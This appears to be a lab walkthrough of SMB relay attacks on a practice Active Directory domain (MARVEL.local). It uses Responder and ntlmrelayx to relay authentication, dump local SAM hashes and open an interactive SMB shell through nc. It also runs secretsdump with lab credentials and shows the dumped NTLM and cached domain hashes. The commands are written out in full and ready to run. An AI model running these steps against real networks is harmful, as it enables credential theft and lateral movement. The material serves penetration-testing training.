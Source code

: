 
First of all we need to run our nmap scan, to check for the host with **SMB** signing disabled

![](https://i.imgur.com/MlaVrME.jpg)

Now we can save  the host that have the prompt **"message signing enabled but not required"** into a **targets.txt** file

![](https://i.imgur.com/vNu7Yc1.png)

Now we can disable the **HTTP** and **SMB** protocol in the responder.conf file, located under `/etc/responder/Responder.conf`

![](https://i.imgur.com/7mRX0rr.png)

We can then startup `responder` with the syntax used previously in **LLMNR Poisoning** `sudo responder -i wlan0 -dwPv` (v for verbose)

![](https://i.imgur.com/TaJpooZ.png)

Now we can startup the `ntlmrelayx.py` tool wit these syntax `ntlmrelayx.py -tf targets.txt -smb2support` , if you don't have it, you can download it from [here](https://github.com/fortra/impacket/blob/impacket_0_9_19/examples/ntlmrelayx.py) and move it to `/usr/bin` 

> If you are still having problem with ntlmrelayx not working, you can download this [tool](https://github.com/Dewalt-arch/pimpmykali) officially made by the TCM members to fix things

![](https://i.imgur.com/Rdh5Zvu.jpg)

The next thing is for our target, to create an event (We are gonna be utilizing **THE-PUNISHER** VM) , remember the `\\ATACKER-IP`

![](https://dimitrios-tsarouchas.tech/assets/img/DNS-failure-Wrong-address.png)

**SAM hashes have been dumped**
![Local-SAM-hashes-have-been-dumped](https://dimitrios-tsarouchas.tech/assets/img/Local-SAM-hashes-have-been-dumped.png)_Local SAM hashes have been dumped_

The authentication succeeded because SMB signing is enabled but not required and because “dtsarouchas” is the Administrator on this computer. Therefore, the SAM hashes were able to be dumped. Now the attacker can copy the SAM hashes, try cracking them offline and move laterally or vertically.

***

Same as we did in the previous section, we can simply get an interactive SMB shell by just adding a flag to ntlmrelayx command

```
impacket-ntlmrelayx -tf targets -smb2support -i
```

-i will give the interactive shell. After running the command, you will see an output like below

![](https://www.hackingloops.com/wp-content/uploads/2023/01/6-2-1024x407.png)

It has successfully exploited and started interactive SMB client shell via TCP on the specified port.

To access the shell, you can simply use `nc` to connect to the host and port using the following command

```
nc 127.0.0.1 11000
```

This will give you the SMB shell as below

![](https://www.hackingloops.com/wp-content/uploads/2023/01/7-2.png)

From here, you can interact using the shell and access the files and folders., for example to see the content of these shares we can say

```shell
sec-fortress@kali#~$ use C$
sec-fortress@kali#~$ use ADMIN$
sec-fortress@kali#~$ use IPC$
```

Then we can do `ls`

![](https://i.imgur.com/Q2m4kx2.png)

## **Dumping Hashes with Secretsdump.py**

**Note :** Make sure to disable/turn `Off` the **HTTP** and **SMB** protocol in the responder.conf file, located under `/etc/responder/Responder.conf`

## **Usage**


```powershell
# Dumping SAM hashes
# secretsdump.py <domain user>:<domain user password>@<domain user IP addr>

$ secretsdump.py MARVEL.local/fcastle:Password1@192.168.0.132
```

**_Dumped Hashes :_**


```shell
--SNIP--

[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xa9b4a5489c5689b25cb65a48804aa1cc
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:938bb6f7cdaf9b1856e880fd28de914b:::
frankcastle:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
[*] Dumping cached domain logon information (domain/username:hash)
MARVEL.LOCAL/Administrator:$DCC2$10240#Administrator#c7154f935b7d1ace4c1d72bd4fb7889c
MARVEL.local/fcastle:$DCC2$10240#fcastle#e6f48c2526bd594441d3da3723155f6f


--SNIP--
```
